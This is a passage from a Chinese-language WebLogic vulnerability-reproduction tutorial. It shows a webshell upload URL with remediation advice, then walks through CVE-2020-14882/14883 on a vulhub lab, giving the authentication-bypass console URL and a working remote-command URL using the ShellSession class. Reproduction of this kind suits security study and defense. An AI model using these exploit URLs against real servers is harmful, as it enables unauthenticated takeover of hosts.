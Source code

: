 http://192.168.111.128:7001/ws_utc/css/config/keystore/1730170162648_shell.jsp  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVENRmljBCLFBpJY6TRTiccHjUao5ib6a3jDltRZL6ymia0egeUQ4ibCbIIkw/640?wx_fmt=png&from=appmsg "")  
  
蚁剑连接WebShell  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVEoll7OpH9d5J9A7BuiabuT8xzMZPvUDSuQPKQib7Q4ic2YBnH2e1BSKqWQ/640?wx_fmt=png&from=appmsg "")  
  
**修复建议**  
```
升级 Oracle WebLogic Server 到已经修复该漏洞的版本。
如果无法立即升级，可以通过配置 WebLogic Server 来限制对/ws_utc/begin.do和/ws_utc/config.do页面的访问。你可以要求用户进行身份验证才能访问这些页面，或者完全禁用这些页面。
```  
  
  
**0x8 CVE-2020-14882**  
  
**漏洞描述**  
  
    CVE-2020-14882 允许远程⽤户绕过管理员控制台组件中的身份验证。CVE-2020-14883 允许经过身份验证的⽤户在管理员控制台组件上执⾏任何命令。使⽤这两个漏洞链，未经身份验证的远程攻击者可以通过 HTTP 在 Oracle WebLogic 服务器上执⾏任 意命令并完全控制主机。  
  
**影响范围**  
```
WebLogic 10.3.6.0.0
WebLogic 12.1.3.0.0
WebLogic 12.2.1.3.0
WebLogic 12.2.1.4.0
WebLogic 14.1.1.0.0
```  
  
**环境搭建**  
```
cd vulhub/weblogic/CVE-2020-14882 
docker-compose up -d
```  
  
**漏洞复现**  
```
未授权路径：http://<IP/DomainName>:7001/console/css/%252e%252e%252fconsole.portal
注：1. 不要进行 URL 解码。2. 需要多次访问，第一次访问的响应状态码是 404。
```  
  
http://192.168.111.128:7001/console/css/%252e%252e%252fconsole.portal  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVEPHYcJRcxZbor2s9cD96EAdIxxbtFJP7dFxKkMRQWegHp8pTbs2jKTQ/640?wx_fmt=png&from=appmsg "")  
  
利用方式1  
  
利用 com.tangosol.coherence.mvel2.sh.ShellSession 类（只能在 WbLogic 12.1.0 以上版本利用）  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVEQYhV2snEudqYicTK2BjsrYvYokSfAtFBxT36zFGA3o7gYZVviaM8wQwQ/640?wx_fmt=png&from=appmsg "")  
```
http://192.168.111.128:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27touch%20/tmp/success%27);%22)
注意：不要进行 URL 解码。
```  
  